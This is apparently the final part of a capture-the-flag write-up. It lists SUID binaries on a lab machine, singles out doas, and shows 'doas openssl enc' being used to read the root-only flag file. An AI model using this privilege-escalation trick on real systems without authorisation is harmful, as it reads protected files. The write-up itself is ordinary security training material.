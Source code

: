 ```
-rwsr-xr-x 1 root root 115208 Oct  5  2021 /snap/snapd/13640/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 88464 Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 85064 Jul 14  2021 /usr/bin/chfn
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 39008 Feb  5  2021 /usr/bin/doas
-rwsr-xr-x 1 root root 44784 Jul 14  2021 /usr/bin/newgrp
-rwsr-xr-x 1 root root 19040 Jun  3  2021 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x 1 root root 130408 Mar 26  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
```
🚩 /usr/bin/doas  What is doas? 🤔🤔🤔

https://wiki.archlinux.org/title/Doas

![image](https://user-images.githubusercontent.com/6504854/196230742-3cefbb11-1603-4af3-8607-361bcfe0529a.png)

🚩 I runned linpeas.sh and found it and consulted gtfobins.

![image](https://user-images.githubusercontent.com/6504854/196231472-b6862862-ec84-4875-ab49-daa43d5a2f0f.png)

```
plot_admin@plotted:~$ FILE=/root/root.txt
FILE=/root/root.txt
plot_admin@plotted:~$ doas openssl enc -in "$FILE"
doas openssl enc -in "$FILE"
Congratulations on completing this room!

5*****************************b

Hope you enjoyed the journey!


```
㊗️㊗️㊗️ Thank you for your reading, Happy hacking 😄😄😄



